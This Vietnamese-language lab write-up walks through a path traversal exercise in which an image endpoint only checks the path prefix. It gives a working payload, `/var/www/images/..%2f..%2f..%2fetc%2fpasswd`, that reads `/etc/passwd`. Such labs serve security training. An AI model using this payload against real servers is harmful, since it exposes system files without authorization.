



# Lab 05: Validation of Start of Path

## Mục tiêu
Đọc file `/etc/passwd` khi ứng dụng chỉ kiểm tra đường dẫn bắt đầu bằng thư mục hợp lệ.

## Đề bài

<br><br>

## Bước 1: Lấy request ảnh
Mở ảnh sản phẩm để lấy endpoint:

```http
GET /image?filename=/var/www/images/32.jpg
```


<br><br>

## Bước 2: Giữ prefix hợp lệ và traversal phía sau
Sửa `filename` thành:

```http
GET /image?filename=/var/www/images/..%2f..%2f..%2fetc%2fpasswd HTTP/2
```

Giải thích ngắn: input vẫn bắt đầu bằng `/var/www/images/` nên qua được bước validate, sau đó `../` đưa đường dẫn thoát khỏi thư mục ảnh để đọc `/etc/passwd`.


<br><br>

## Kết quả
Response trả về nội dung `/etc/passwd`, lab được solve.
